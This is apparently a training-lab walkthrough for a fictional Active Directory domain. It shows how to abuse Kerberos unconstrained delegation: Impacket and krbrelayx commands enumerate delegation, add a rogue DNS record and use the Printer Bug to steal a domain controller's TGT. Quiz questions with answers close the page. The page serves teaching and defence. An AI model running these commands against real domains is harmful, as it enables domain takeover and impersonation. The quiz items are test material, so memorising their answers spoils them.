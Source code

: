 #Unconstrained delegation abuse

This attack is performed by using a compromised service account that is configured to perform unconstrained delegation. Once an attacker has compromised any user account, it can query the domain's database using LDAP, in order to check which accounts are configured for delegation. This can be done by using the 'findDelegation.py' script from Impacket. You may use Jesse Pinkman's credentials, cracked in the AS-REP roasting attack.  

```
findDelegation.py NORTH.ALTAIR.LOCAL/jesse.pinkman:Wang0Tang0! -target-domain north.altair.local
```

The output from the script tells the attacker which accounts are configured for which type of delegation. Namely, the attacker notes that the jesse.pinkman account is configured for unconstrained delegation. This means that through the use of this account, the attacker can retrieve TGTs from users that authenticate to it.

Now, the objective in this exercise is to steal the DC account's TGT. The DC account can be coerced into authenticating to the attacker's machine through the use of the Printer Bug. If the DC authenticates to the attacker machine, the attacker can then retrieve its TGT, and impersonate the DC to any service on the domain.

To properly trigger the Printer Bug and coerce the DC to authenticate to the attacker using Kerberos, there must be a DNS record that resolves the jesse.pinkman.north.altair.local hostname to the attacker's IP address. This is required since if IP addresses are used to trigger authentication, Windows falls back to NTLM. To create this record, the 'dnstool.py' script from the krbrelayx toolkit can be used, since authenticated users can create  DNS records. In the 'krbrelayx' directory, run:

```
python3 dnstool.py -u north\\jesse.pinkman -p 'Wang0Tang0!' captain.north.altair.local --zone north.altair.local -r jesse.pinkman.north.altair.local -a add -t A -d 192.168.122.2
```

At this point, there's a DNS record resolving Jesse's hostname to the attacker's IP address. Upon DC authentication to Jesse, the DC will query DNS and be tricked into thinking that the attacker's IP is actually Jesse's IP.

At this point, the printer bug can be executed, which will trigger Kerberos authentication from the DC to the attacker. Since the DC assesses that Jesse is configured for unconstrained delegation, it will include its own TGT within the AP-REQ sent to the attacker's machine. The attacker will then use Jesse's password to decrypt the AP-REQ section that includes a session key. This session key is necessary to use the TGT, and will also be sent to Jesse, as per unconstrained delegation behavior. Once this session key is obtained, the attacker can then use the DC's TGT arbitrarily.

To do so, in one terminal, the 'krbrelayx.py' script must be running. Once that script is running and waiting for the DC to authenticate to the attacker, the attacker will execute the printer bug in a second terminal, using the 'printerbug.py' script. The Printer Bug will coerce the DC to authenticate to the attacker's machine.

```
#In a first terminal, run the krbrelayx.py script. To be able to do so, you must stop the DNS service running on your machine
#First, stop DNS service
systemctl stop systemd-resolved 
#Now, run the krbrelayx script
sudo -E python3 krbrelayx.py -s jesse.pinkman -p Wang0Tang0!
#Now in a second terminal, run the printer bug in order to trick the DC into authenticating to the attacker using Kerberos
python3 printerbug.py NORTH/jesse.pinkman:'Wang0Tang0!'@captain.north.altair.local jesse.pinkman.north.altair.local
#At this point you can restart the DNS service
systemctl start systemd-resolved 
```

At this point, the attacker has successfully retrieved the CAPTAIN DCs own TGT, which can be used to impersonate the DC to any service in the domain.



!!! question
    Why is the service's (Jesse's) password required to retrieve the DC's TGT? 

??? success "Answer"
    The service password is required since in Kerberos Unconstrained Delegation, the DC's TGT is sent to the attacker, along with a session key. This session key is encrypted using the service account's (Jesse) password. Using Jesse's password, the attacker can retrieve this session key and use it in new TGS exchanges, leveraging the own DC's TGT, and therefore impersonating the DC. 

!!! question
    Would the DC send its TGT to the attacker if constrained delegation was used, instead of unconstrained delegation?

??? success "Answer"
    The DC would not send its TGT if instead constrained delegation was used. This only happens in unconstrained delegation and is considered unsecure.

!!! question
    Which Windows service is exploited by the Printer Bug to trigger authentication from a target system?
??? success "Answer"
    The Printer Bug abuses the Windows Print Spooler service to coerce a target to authenticate to the attacker.


